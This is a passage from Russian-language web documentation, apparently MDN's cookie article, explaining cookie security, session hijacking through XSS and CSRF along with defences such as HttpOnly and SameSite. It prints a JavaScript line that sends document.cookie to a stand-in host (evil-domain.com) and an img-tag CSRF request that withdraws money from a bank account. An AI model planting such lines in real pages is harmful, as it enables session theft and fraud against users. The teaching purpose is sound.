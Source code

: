 > **Примечание:** При сохранении информации в куках имейте в виду, что у всех пользователей есть возможность просматривать и изменять их значения. В зависимости от типа приложения вы можете использовать ни о чём не говорящее имя для идентификатора кук, смысл которого будет понятен только бэкенду. Также вы можете рассмотреть возможность использования альтернативных механизмов аутентификации и конфиденциальности, например, JSON Web Tokens

Способы предотвращения атак, использующих куки:

- Используйте атрибут `HttpOnly` для предотвращения доступа к кукам из JavaScript.
- Куки, которые используются для хранения чувствительной информации, такой как аутентификационный токен, должны иметь короткое время жизни и атрибут `SameSite`, установленный в `Strict` или `Lax`. Для того чтобы узнать больше, смотрите раздел [SameSite](#куки_samesite). В [браузерах с поддержкой SameSite](<браузерах с поддержкой SameSite>) это гарантирует предотвращение отправки кук аутентификации с межсайтовыми запросами, фактически такие запросы с точки зрения бэкенда становятся неаутентифицированными.

### Захват сессии (session hijacking) и XSS

Куки часто используются в веб-приложениях для идентификации аутентифицированного пользователя и сеанса работы. Соответственно, похищение кук из приложения может привести к захвату авторизованного сеанса пользователя. Кража кук часто осуществляется посредством социальной инженерии (Social Engineering) и использования уязвимости {{Glossary("XSS")}}.

```js
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

Атрибут HttpOnly помогает уменьшить эту угрозу, перекрывая доступ к кукам из JavaScript.

### Межсайтовая подделка запроса (CSRF - Cross-site request forgery)

В [Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery) есть хороший пример {{Glossary("CSRF")}}. В сообщение, например, в чате или на форуме, включают "изображение", которое, на самом деле, представляет собой запрос к серверу банка на снятие денег:

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory" />
```

Если вы аутентифицированны в своём банковском аккаунте, а куки по-прежнему действительны (и никакой дополнительной проверки не требуется), то при загрузке HTML-документа форума или чата с этим изображением деньги будут переведены с вашего счета. Для защиты от этого используется ряд методов:

- Как и при {{Glossary("XSS")}}, важна фильтрация входящей информации.
- Для любой чувствительной операции должно запрашиваться подтверждение.
- Куки, используемые для чувствительных операций, должны иметь короткий срок действия.
- Дополнительную информацию можно получить в пользовательской инструкции по предотвращению [CSRF](<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>) на сайте OWASP.

## Трекинг и приватность
